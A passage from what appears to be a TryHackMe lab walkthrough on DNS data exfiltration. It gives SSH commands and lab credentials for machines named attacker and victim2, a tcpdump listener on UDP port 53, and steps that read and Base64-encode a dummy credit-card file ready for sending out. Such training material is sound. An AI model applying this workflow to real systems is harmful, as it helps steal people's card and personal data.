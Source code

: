 Connect to the Attacker machine viaSSHClient from JumpBox  

```markup
thm@jump-box$ ssh thm@attacker.thm.com
```

Or from the AttackBox machine using the 10.10.39.16 and port 2322 as follows,

Connect to the Attacker machine viaSSHClient from AttackBox  

```markup
root@AttackBox$ ssh thm@10.10.39.16 -p 2322
```

In order to receive any DNS request, we need to capture the network traffic for any incoming UDP/53 packets using the tcpdump tool.

CapturingDNSrequests on the Attacker Machine  

```markup
thm@attacker$ sudo tcpdump -i eth0 udp port 53 -v 
tcpdump: listening on eth0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Once the attacker machine is ready, we can move to the next step which is to connect to our victim2 through SSH, which could be done from the Jump Box using the following credentials: thm:tryhackme.

Connect to Victim 2 viaSSHClient from JumpBox  

```markup
thm@jump-box$ ssh thm@victim2.thm.com
```

Or from the AttackBox machine using the 10.10.39.16 and port 2122 as follows,

Connect to Victim 2 viaSSHClient from AttackBox  

```markup
root@AttackBox$ ssh thm@10.10.39.16 -p 2122
```

On the victim2 machine, there is a task9/credit.txt file with dummy data.  

Checking the content of the creds.txt file  

```markup
thm@victim2$ cat task9/credit.txt
Name: THM-user
Address: 1234 Internet, THM
Credit Card: 1234-1234-1234-1234
Expire: 05/05/2022
Code: 1337
```

In order to send the content of a file, we need to convert it into a string representation which could be done using any encoding representation such as Base64, Hex, Binary, etc. In our case, we encode the file using Base64 as follows,  

Encoding the Content of the credit.txt File  

```markup
thm@victim2$ cat task9/credit.txt | base64
TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAx
MjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==
```
